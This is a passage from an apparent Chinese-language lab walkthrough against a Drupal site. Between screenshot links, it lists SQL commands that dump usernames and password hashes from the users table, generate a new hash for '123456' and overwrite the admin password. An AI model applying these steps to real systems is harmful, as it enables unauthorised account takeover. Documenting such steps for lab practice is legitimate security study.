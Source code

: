 ![image-20210311110659262](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311110659262.png)

使用数据库

```text
use drupaldb
```

![image-20210311110714578](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311110714578.png)

查看表

```text
show tablesl;
```

![image-20210311110728932](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311110728932.png)

发现users表

![image-20210311110826397](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311110826397.png)

查看表数据

```text
select * from users;
```

![image-20210311111230787](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311111230787.png)

比较乱，我们只选择name和pass两项数据

```text
select name,pass from users;
```

![image-20210311111326675](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311111326675.png)

得到用户名以及加密的密码

在网上找到密码的加密方法

![image-20210311122948727](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311122948727.png)

使用该加密文件加密

```text
php password-hash.sh 123456
password: 123456                hash: $S$DqV8AOAj7YCPuoV.pn10KQ7PUzlgUULmVFgVlc9N7fCJVdFYByzt
```

![image-20210311123012850](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311123012850.png)

使用生成的新密码替换旧密码

```text
update users set pass="$S$DqV8AOAj7YCPuoV.pn10KQ7PUzlgUULmVFgVlc9N7fCJVdFYByzt" where name="admin";
```

